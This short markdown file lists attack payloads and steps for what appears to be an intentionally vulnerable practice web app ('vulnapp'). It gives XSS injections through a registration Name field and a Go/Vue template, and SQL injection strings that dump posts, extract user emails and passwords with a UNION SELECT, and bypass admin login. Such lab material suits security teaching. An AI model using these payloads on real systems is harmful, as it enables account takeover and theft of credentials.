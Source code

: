 
# Payloads

## XSS

### Not escape register name
1. register with insert XSS code(' );<script>alert(***)</script> -- ') Name form
2. and Login page, login with mail and pass
3. Rendering login user name in template, so occur XSS

### Golang (and Vue) html template Basic 
1. register with insert XSS code ( '}}<script>alert(1)</script>{{' ) Name form

## SQL Injection

### Get all posts
1. open timeline
2. search timeline use `%" or 1=1; --`

### Get UserID and Passwd using Union
1. open timeline
2. search post use `" union select mail,passwd from vulnapp.user ;`

### Bypass Authentication
1. open admin login page
2. Input ` " or 1=1; -- ` into Mail-address form
3. Input random word into password form
4. Enter
